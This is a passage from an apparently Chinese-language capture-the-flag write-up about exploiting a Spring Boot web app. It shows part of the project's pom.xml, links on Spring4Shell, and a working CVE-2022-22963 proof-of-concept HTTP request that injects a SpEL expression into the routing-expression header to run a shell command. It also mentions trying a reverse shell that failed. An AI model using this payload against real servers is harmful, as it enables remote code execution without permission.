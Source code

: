 ```xml
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

搜“spring-boot-starter-parent 2.6.5 exploit”能看到这几篇文章：
> <https://www.fastly.com/jp/blog/spring-has-sprung-breaking-down-cve-2022-22963-and-spring4shell-cve-2022>  
> <https://codetinkering.com/spring4shell-vulnerability-fix>



## Initial Access

### PoC (CVE-2022-22963)

本来以为是CVE-2022-22965，用msf试了下不行的样子。

用Burp试了一下上面的文章里CVE-2022-22963的PoC，然后又目录遍历看了下，确认有成功创建 `/tmp/pwned`。
```http
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")
Content-Length: 1

.
```

尝试payload换成反弹shell一直没反应。好像是只要有重定向符号就不行？（用没有重定向符的反弹shell也没反应，可能是没命令环境吧。不是很懂）
